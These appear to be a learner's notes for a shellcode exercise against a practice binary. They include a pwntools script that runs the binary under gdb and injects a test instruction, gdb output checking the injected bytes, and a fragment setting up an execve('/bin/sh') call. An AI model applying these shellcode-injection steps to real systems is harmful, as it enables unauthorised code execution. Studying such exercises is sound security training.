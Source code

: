 Purpose: 
move the addr of "/bin/sh" into rdi (1st argument)

p.send(
asm('''
lea rdi, [str]   # cuz str is defined as a global var of the value "/bin/sh"
''')
)


The first thing we want to do is set ourselves up to test our shellcode. Let's create a stub (stub means temporary, draft) `pwntools` script and send a single instruction to confirm we gain execution and write instructions into the buffer correctly. The following scripts sets us up for success by:

* Spawning a new program under `gdb` so we can quickly debug quickly in a split `tmux` terminal
* Breakpointing on the `call rdx` instruction at `main + 102` where `rdx` points to our shellcode
* Assembling a single instruction to verify our data lands where it is supposed to
* Waiting for the spawned shell (which we will complete in the next steps)

```python
from pwn import*

context.log_level = "DEBUG"
context.terminal = ["tmux", "splitw", "-f", "-h"]
context.arch = "amd64"

e = ELF("./execve_shellcode", checksec=False)
# gdb.debug takes 2 args: the binary to run, multi-line string for gdb cmds
p = gdb.debug("./execve_shellcode", '''
b *(main + 102)
continue
''')
p.recvuntil(b"exec!\n")

s = asm('''
mov rax, 0x0
''')

p.send(s)

p.interactive()
```

This script breaks right before shellcode execution, and we can double check that our input is in the right spot by dumping instructions in `rdx`:
- why are we dumping rdx??
	- how did you decide?


```gdb
[#0] 0x4011dc → main()
gef➤  x/10i $rdx
   0x7ff3b6baa000:      mov    rax,0x0  <-- the instruction WE SENT
   0x7ff3b6baa007:      add    BYTE PTR [rax],al
   0x7ff3b6baa009:      add    BYTE PTR [rax],al
   0x7ff3b6baa00b:      add    BYTE PTR [rax],al
   0x7ff3b6baa00d:      add    BYTE PTR [rax],al
gef➤  x/20xb $rdx
0x7ff3b6baa000: 0x48    0xc7    0xc0    0x00    0x00    0x00    0x00    0x00
0x7ff3b6baa008: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7ff3b6baa010: 0x00    0x00    0x00    0x00
```
